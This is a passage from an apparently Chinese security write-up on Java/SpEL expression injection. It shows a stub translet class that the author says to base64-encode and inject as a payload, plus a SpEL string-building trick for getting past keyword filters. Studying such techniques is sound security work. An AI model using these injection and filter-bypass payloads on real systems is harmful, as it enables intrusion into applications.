 ```java

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

把他变为base64塞入payload之后注入。  
![image.png](assets/1698895942-4b5b85a656b000dbe12f80eefac5b305.png)  
这就是我的纯度。

# 六、关键字Bypass（编不下去了）

纯度宝典最后一页，假如没有技能了怎么办  
和一些其他语言的沙盒逃逸一样，想办法找到替代的东西，思路其实大差不差。

## 字符串替换

形如这样的

```php
T(String).getName()[0].replace(106,104)+T(String).getName()[0].replace(106,51)+T(String).getName()[0].replace(106,122)+T(String).getName()[0].replace(106,104)+T(String).getName()[0].replace(106,49)
#回显h3zh1
```
